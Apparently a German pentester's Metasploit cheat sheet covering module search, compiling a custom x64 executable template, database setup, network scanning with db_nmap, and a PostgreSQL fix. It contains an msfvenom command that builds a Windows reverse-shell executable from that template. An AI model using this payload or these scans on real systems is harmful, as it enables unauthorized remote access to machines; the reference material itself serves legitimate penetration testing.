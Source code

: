 ### Search

```ruby
msf> search platform:windows port:135 target:XP type:exploit
#list available keywords
msf>help search
```
## Custom

### Custom Termplates

#### x64 template

`metasploit-framework/data/templates/src/pe/exe/template_x64_windows.asm`

4096 ändern in 8192

Kompilieren:

```batch
C:\Program Files\Microsoft Visual Studio\2022\Community\VC\Tools\MSVC\14.38.33130\bin\Hostx64\x64>ml64.exe c:\tmp\template_x64_windows.asm /link /subsystem:windows /defaultlib:"C:\Program Files (x86)\Windows Kits\10\Lib\10.0.22621.0\um\x64\kernel32.Lib" /entry:main
```

msfvenom:

```bash
msfvenom -x template_x64_windows.asm -p windows/x64/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4500 -f exe > file.exe
```

## Database

Datenbanken können mit `root@kali:~# msfdb init` initialisiert werden. Hierzu wird eine Datenbank mit Benutzer und Passwort erstellt und das Datenbank-Schema angelegt.

```ruby
msf6 > db_connect user:pass@localhost/msf
msf6 > db_status
msf6 > workspace
msf6 > workspace -a new_ws
msf6 > db_nmap -sP 192.168.2.0/24
msf6 > hosts
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > hosts -R
msf6 auxiliary(scanner/portscan/tcp) > run
```

### Metasploit with PostgreSQL
#### ALTER DATABASE Version mismatch

```shell
sudo -u postgres psql
\l
ALTER DATABASE <dbnames> REFRESH COLLATION VERSION;
\q
service postgresql restart
```
